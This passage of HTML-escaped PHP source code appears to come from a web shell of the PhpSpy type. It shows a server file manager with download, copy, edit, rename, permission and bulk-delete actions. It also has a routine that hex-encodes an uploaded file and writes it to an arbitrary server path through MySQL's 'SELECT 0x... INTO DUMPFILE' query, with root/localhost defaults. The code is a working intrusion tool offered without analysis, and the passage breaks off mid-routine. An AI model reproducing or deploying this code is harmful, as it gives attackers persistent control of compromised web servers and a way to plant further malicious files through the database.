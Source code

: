 			p('&lt;a href="javascript:fileperm(\''.$filedb['server_link'].'\');"&gt;'.$filedb['fileperm'].'&lt;/a&gt;'.$filedb['fileowner'].'&lt;/td&gt;');
			p('&lt;td nowrap&gt;');
			p('&lt;a href="javascript:dofile(\'downfile\',\''.$filedb['server_link'].'\');"&gt;Down&lt;/a&gt; | ');
			p('&lt;a href="javascript:copyfile(\''.$filedb['server_link'].'\');"&gt;Copy&lt;/a&gt; | ');
			p('&lt;a href="javascript:opfile(\'editfile\',\''.$filedb['server_link'].'\',\''.$filedb['dirlink'].'\');"&gt;Edit&lt;/a&gt; | ');
			p('&lt;a href="javascript:rename(\''.$filedb['server_link'].'\');"&gt;Rename&lt;/a&gt;');
			p('&lt;/td&gt;&lt;/tr&gt;');
			$file_i++;
		}
	}
	p('&lt;tr class="head"&gt;&lt;td&gt;&nbsp;&lt;/td&gt;&lt;td&gt;Filename&lt;/td&gt;&lt;td width="16%"&gt;Last modified&lt;/td&gt;&lt;td width="10%"&gt;Size&lt;/td&gt;&lt;td width="20%"&gt;Chmod / Perms&lt;/td&gt;&lt;td width="22%"&gt;Action&lt;/td&gt;&lt;/tr&gt;');
	p('&lt;tr class="'.bg().'"&gt;&lt;td align="center"&gt;&lt;input name="chkall" value="on" type="checkbox" onclick="CheckAll(this.form)" /&gt;&lt;/td&gt;&lt;td colspan="4"&gt;&lt;a href="javascript:dofile(\'delfiles\');"&gt;Delete selected&lt;/a&gt;&lt;/td&gt;&lt;td align="right"&gt;'.$dir_i.' directories / '.$file_i.' files&lt;/td&gt;&lt;/tr&gt;');
	p('&lt;/form&gt;&lt;/table&gt;');
}// end dir

elseif ($action == 'sqlfile') {
	if($doing=="mysqlupload"){
		$file = $_FILES['uploadfile'];
		$filename = $file['tmp_name'];
		if (file_exists($savepath)) {
			m('The goal file has already existed');
		} else {
			if(!$filename) {
				m('Please choose a file');
			} else {
				$fp=@fopen($filename,'r');
				$contents=@fread($fp, filesize($filename));
				@fclose($fp);
				$contents = bin2hex($contents);
				if(!$upname) $upname = $file['name'];
				$mysqllink = mydbconn($dbhost,$dbuser,$dbpass,$dbname,$charset,$dbport);
				$result = q("SELECT 0x{$contents} FROM mysql.user INTO DUMPFILE '$savepath';");
				m($result ? 'Upload success' : 'Upload has failed: '.mysql_error());
			}
		}
	}
?&gt;
&lt;script type="text/javascript"&gt;
function mysqlfile(doing){
	if(!doing) return;
	$('doing').value=doing;
	$('mysqlfile').dbhost.value=$('dbinfo').dbhost.value;
	$('mysqlfile').dbport.value=$('dbinfo').dbport.value;
	$('mysqlfile').dbuser.value=$('dbinfo').dbuser.value;
	$('mysqlfile').dbpass.value=$('dbinfo').dbpass.value;
	$('mysqlfile').dbname.value=$('dbinfo').dbname.value;
	$('mysqlfile').charset.value=$('dbinfo').charset.value;
	$('mysqlfile').submit();
}
&lt;/script&gt;
&lt;?php
	!$dbhost && $dbhost = 'localhost';
	!$dbuser && $dbuser = 'root';
	!$dbport && $dbport = '3306';
	formhead(array('title'=&gt;'MYSQL Information','name'=&gt;'dbinfo'));
	makehide('action','sqlfile');